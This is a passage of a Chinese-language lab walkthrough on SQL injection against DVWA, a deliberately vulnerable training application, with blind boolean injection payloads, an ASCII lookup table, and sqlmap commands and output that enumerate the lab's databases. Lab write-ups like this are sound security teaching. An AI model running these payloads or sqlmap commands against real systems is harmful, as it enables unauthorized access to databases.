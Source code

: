 substr("str",pos,length) //pos从1开始，返回length长字符串

| Dec  | Hex  | 字符 |
| ---- | ---- | ---- |
| 48   | 0x30 | 1    |
| 57   | 0x39 | 9    |
| 65   | 0x41 | A    |
| 90   | 0x5A | Z    |
| 97   | 0x61 | a    |
| 122  | 0x7A | z    |

```
1' and ascii(substr(database(),1,1))>97#
1' and ascii(substr(database(),2,1))>97#
1' and ascii(substr(database(),3,1))>97#
1' and ascii(substr(database(),4,1))>97#
```
#### MEDIUM

#### HIGH

### 使用sqlmap

**获取数据库信息**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch
```

result

```
[08:44:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.38, Apache 2.4.39
back-end DBMS: MySQL >= 5.6
```

**获取数据库**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
```

result

```
[08:47:22] [INFO] fetching database names
available databases [5]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```
